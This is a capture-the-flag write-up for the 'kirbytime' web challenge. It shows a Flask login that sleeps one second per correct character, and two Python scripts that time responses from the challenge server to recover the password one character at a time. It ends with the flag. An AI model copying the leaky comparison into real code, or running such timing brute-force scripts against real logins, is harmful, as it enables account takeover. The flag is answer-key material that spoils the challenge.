


# web/kirbytime

## About
"Welcome to Kirby's Website."
And there's a button that you can start the instance.

The following files are given:


main.py:
```python
import sqlite3
from flask import Flask, request, redirect, render_template
import time
app = Flask(__name__)


@app.route('/', methods=['GET', 'POST'])
def login():
    message = None
    if request.method == 'POST':
        password = request.form['password']
        real = 'REDACTED'
        if len(password) != 7:
            return render_template('login.html', message="you need 7 chars")
        for i in range(len(password)):
            if password[i] != real[i]:
                message = "incorrect"
                return render_template('login.html', message=message)
            else:
                time.sleep(1)
        if password == real:
            message = "yayy! hi kirby"

    return render_template('login.html', message=message)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

login.html:
```html
.
.
.

<body>
    <h1>welcome back kirby :33</h1>
    <p>we will wait for u as u take ur time entering ur 7 character password</p>
    
    <div class="container">
        
        <div class="form-container">
            <form action="/" method="POST">
                <label for="password">Password:</label>
                <input type="password" name="password" id="password"><br>
                <input type="submit" value="Login">
            </form>
            
                <p>{{ message }}</p>
            
        </div>
    </div>
</body>
```

## Recon
It looks like we have to figure out that 7 digit password.
Since the Python code checks the password one character by one and sleeps for 1 second if a character matches, we can exploit that behavior.

## Exploitation
Given the above information, I wrote a Python script:
```python
import requests
import time

url = 'http://34.31.154.223:50017'
password = [' '] * 7
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
password_found = ''

def measure_response_time(password_attempt):
    start_time = time.time()
    response = requests.post(url, data={'password': password_attempt})
    end_time = time.time()
    return end_time - start_time

for i in range(7):
    for char in charset:
        temp_password = password
        temp_password[i] = char
        passowrd_attempt = ''.join(temp_password)
        response_time = measure_response_time(passowrd_attempt)
        if response_time > (i+1):
            password[i] = char
            password_found += char
            print('Password found: ' + password_found)
            break
```


Due to the 10-minute time limit of the instance, I had to run the following script to figure out the last character of the password.
```python
import requests
import time

url = 'http://34.31.154.223:51478'
password = ['k','B','y','S','l','a','?']
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
password_found = ''

def measure_response_time(password_attempt):
    start_time = time.time()
    response = requests.post(url, data={'password': password_attempt})
    end_time = time.time()
    return end_time - start_time

for char in charset:
    temp_password = password
    temp_password[6] = char
    passowrd_attempt = ''.join(temp_password)
    print("Trying: " + passowrd_attempt)
    response_time = measure_response_time(passowrd_attempt)
    if response_time > (6+1):
        password[6] = char
        password_found += char
        print('Password found: ' + password_found)
        break
```

Flag: LITCTF{kBySlaY}